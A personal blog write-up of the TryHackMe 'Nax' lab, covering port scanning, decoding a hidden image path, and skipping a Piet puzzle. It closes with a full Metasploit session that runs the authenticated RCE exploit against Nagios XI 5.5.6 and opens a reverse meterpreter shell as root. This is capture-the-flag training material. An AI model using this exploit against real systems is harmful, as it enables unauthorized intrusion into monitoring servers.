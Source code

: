 ```yaml
---
layout: post
title:  "THM: Nax"
date:   2021-01-15 21:30:00 +1100
category: hacking
---
```


## Overpass3
*Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.*

This is [Nax](https://tryhackme.com/room/nax) from THM. It's medium rated and somewhat guided.

## Ports
PORT     STATE SERVICE
1. 22/tcp   open  ssh
2. 25/tcp   open  smtp
3. 80/tcp   open  http
4. 389/tcp  open  ldap
5. 443/tcp  open  https
6. 5667/tcp open  unknown

389 is LDAP, 25 is Postfix SMTP and 5667 is unknown, but it doesn't matter anyway.

## HTTP
On the frontpage we got some ASCII art and this message:

>Welcome to elements.  
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr

Being a past chemistry nerd, I recognised that I could get the atomic numbers for these elements from a periodic table:

>47 80 73 51 84 46 80 78 103

And sending that to CyberChef we can decode it to:

>/PI3T.PNg

Sure enough, there is a PNG file called */PI3T.PNg* with the artist being *Piet Mondrian* according to exiftool. Since Piet Mondrian was an artist who died in 1944, we can be pretty bloody sure he didn't create this PNG; moreover it has an appearance vaguely reminiscent of his work but it's not the same. Where does that leave us?

Well, we are after an authenticated RCE method so we need to be 'given' some credentials. I guessed (rightly) that this was some sort of Stego challenge, which I hate. After trying a few basic methods suitable for a PNG (strings, exiftool, foremost, binwalk) I searched for a writeup to find out what precise flavour of bs this was. 

## Piet
It turns out that it is [piet](https://www.dangermouse.net/esoteric/piet.html), which is actually a programming language rather than a steganography technique *per se*. Anyway people were solving it at [this](https://www.bertnase.de/npiet/npiet-execute.php) website, but I tried it and it didn't work. So rather than mess about with stego nonsense, I just grabbed the creds and moved on.

Later, I researched *piet* a little more and downloaded a python script that is supposed to be able to interpret the images. I had to install *pygubu* and then ran it; it threw a TypeError:

>TypeError: 'numpy.uint8' object is not iterable

Yeah, screw piet.

## Exploit
Metasploit baby! Haven't had one of those for a while:

{% highlight shell %}
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   n3p3UQ&9BjLp4$7uhWdY  yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.40.124          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                    yes       The target port (TCP)
   SRVHOST    10.9.10.123           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080                  yes       The local port to listen on.
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                     yes       Base path to NagiosXI
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin           yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.10.123      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


msf6 exploit(linux/http/nagios_xi_authenticated_rce) > run

[*] Started reverse TCP handler on 10.9.10.123:4444 
[*] Found Nagios XI application with version 5.5.6.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (3008420 bytes) to 10.10.40.124
[*] Meterpreter session 1 opened (10.9.10.123:4444 -> 10.10.40.124:44212) at 2021-01-15 06:07:04 -0500
[*] Deleting malicious 'check_ping' plugin...
[!] Failed to delete the malicious 'check_ping' plugin: Connection failed. Manual cleanup is required.

meterpreter > shell
Process 23296 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

Okey dokey.
